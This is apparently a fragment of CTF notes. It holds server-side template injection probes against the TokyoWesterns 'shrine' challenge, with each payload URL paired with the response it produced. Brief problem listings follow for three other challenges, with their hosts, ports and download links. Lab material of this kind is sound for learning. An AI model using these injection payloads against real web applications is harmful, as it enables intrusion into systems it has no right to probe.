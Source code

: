 ```python

http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.PATH_INFO}}2333
    /shrine/{{request.environ.PATH_INFO}}23332333
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.SERVER_PORT}}
    8080
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.HTTP_USER_AGENT}}
    Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.HTTP_USER_AGENT[12]}}
    (
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.HTTP_USER_AGENT[40]}}
    )
http://shrine.chal.ctf.westerns.tokyo/shrine/{%25 set owasp=233+233 %25}{{owasp}}
    466
http://shrine.chal.ctf.westerns.tokyo/shrine/dir{{request.environ.HTTP_USER_AGENT[12]}}{{request.environ.HTTP_USER_AGENT[40]}}
    dir()
```



# twgc

### Problem

Host : twgc.chal.ctf.westerns.tokyo
Port : 11419
[twgc](https://static.score.ctf.westerns.tokyo/attachments/17/twgc-18e0a86aae9b32113cd3089cc1574a897bc258553a9959dc734783228e4ce5a0)
[libc.so.6](https://static.score.ctf.westerns.tokyo/attachments/17/libc-05b841eae6f475817ebb3b99562cd6535cc61b099350a25019cd5d3b3136881d.so.6)

# swap Returns

### Problem

SWAP SAWP WASP PWAS SWPA
`nc swap.chal.ctf.westerns.tokyo 37567`
[swap_returns](https://static.score.ctf.westerns.tokyo/attachments/16/swap_returns-b53223ca8f38cb4615ba13aa2671431bdd8fbb84b033b8c87327e5bd17aaeab6)
[libc.so.6](https://static.score.ctf.westerns.tokyo/attachments/16/libc-a3c98364f3a1be8fce14f93323f60f3093bdc20ba525b30c32e71d26b59cd9d4.so.6)

# EscapeMe

### Problem

host : escapeme.chal.ctf.westerns.tokyo
port : 16359
